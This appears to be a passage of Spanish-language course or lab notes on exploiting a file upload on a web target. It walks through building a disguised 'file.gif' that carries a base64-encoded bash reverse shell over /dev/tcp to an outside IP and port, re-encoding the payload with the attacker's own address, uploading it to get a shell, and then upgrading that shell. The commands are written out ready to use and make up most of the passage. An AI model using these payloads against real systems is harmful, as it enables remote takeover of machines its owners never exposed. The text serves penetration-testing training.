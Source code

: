 En este caso de la misma manera que lo hicimos en la unidad anterior, podemos hacer un **Reverse Shell** para que la maquina nos brinde una consola a nosotros como atacantes. En el GITHUB nos representan un código en la parte de **"POC of getting a reverse shell"**, copiaremos todo.

Crearemos un archivo con la extensión **"``.gif``"** exactamente será **"``file.gif``"** el nombre no importa. A continuación decodificamos la cadena que está escrita en base64 con el comando

- **``echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d; echo``**

Ahí veremos esto **``/bin/bash -i >& /dev/tcp/45.32.43.49/8889 0>&1``** esta cadena lo que hace es enviar una Bash interactiva (``-i``) por el protocolo TCP, mediante una comunicación al ``/dev/tcp`` que es una ruta del sistema especial, que se verá mas adelante en el curso.
Lo que deberíamos hacer es reemplazar esa IP y el Puerto por los nuestros, pero todo debe estar en "**base64**".

Primero escribiríamos un **``echo``** con el parámetro **``-n``**" para que no nos aplique un salto de linea, seguido de toda la linea del comando con nuestros datos reemplazados.

- **``echo -n "/bin/bash -i >& /dev/tcp/172.17.0.1/4646 0>&1" | base64``**

El puerto puede ser cualquiera, y el resultado obtenido lo metemos en la cadena dentro del archivo reemplazando la antigua.

De esta manera ya tenemos hecho el archivo malicioso, si lo metemos dentro de la web como hacíamos antes, vamos a obtener una Shell en nuestra IP, teniendo el control de la maquina. 

Podemos utilizar el comando **``script /dev/null -c bash``** para que se nos otorgue una BASH.

-------